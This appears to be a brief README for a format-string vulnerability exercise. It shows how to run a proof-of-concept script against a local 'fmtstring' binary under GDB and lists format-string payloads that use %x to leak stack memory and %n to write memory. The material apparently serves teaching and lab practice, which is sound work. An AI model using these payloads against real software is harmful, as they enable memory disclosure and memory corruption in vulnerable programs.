 # Usages

Inside GDB: `run $(./poc.py)`

Outside GDB: `./fmtstring $(./poc.py)`

Other things to try!

(outside of GDB)

`./fmtstring AAAA.%4$x`
`./fmtstring AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`

(inside of GDB)

`r 'AAAA.%x%x%16x%n`
